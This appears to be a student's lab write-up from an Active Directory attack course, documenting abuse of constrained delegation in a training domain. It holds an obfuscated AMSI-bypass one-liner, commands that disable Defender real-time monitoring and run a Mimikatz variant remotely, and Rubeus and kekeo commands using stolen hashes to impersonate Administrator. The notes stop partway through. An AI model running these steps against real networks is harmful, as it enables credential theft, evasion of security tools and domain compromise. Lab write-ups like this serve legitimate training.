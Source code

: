 # 👨‍✈️ Exploit Constrained Delegation and execute privileged operations

We are going to start bu enumerating users with constrained delegation ->

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth 
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We already have secrets of websvc from dcorp-admisrv machine.</p></figcaption></figure>

We can either use Kekeo or Rubeus to abuse that.

Let's start with rubeus -> First we need to encode "s4u" with Argsplit

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation" %}

Since i'm not very meticulous, i didn't note websvc's secrets so i need to do it again ->

```
PS C:\AD\Tools> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
PS C:\AD\Tools> . .\PowerView.ps1
PS C:\AD\Tools> . .\PowerUp.ps1
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student613\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
[dcorp-adminsrv]: PS C:\Users\student613\Documents> cd 'C:\Program Files\'
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7</p></figcaption></figure>

Now let's launch the Rubeus with s4u encoded:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

{% hint style="warning" %}
in the course there's an error on the server name that is dcorpmssql and not dcorp-mssql
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>just checking if it's all good</p></figcaption></figure>

And now we can access dcorp-mssql:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we're going to abuse Constrained Delegation using websvc with Kekeo

Let's  use the tgt::ask module from kekeo to request a TGT from websvc. Note that we are using NTLM hash of websvcs here just to show NTLM hash can be used too:

```
cd .\kekeo\x64
.\kekeo.exe 
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, let's use this TGT and request a TGS. Note that we are requesting a TGS to access cifs/dcorp-mssql as the domain administrator - Administrator ->

```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can inject the ticket in current session to use it

(will finish kekeo later)

Now we're going to abuse Constrained Delegation using dcorp-adminsrv with Rubeus

We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine
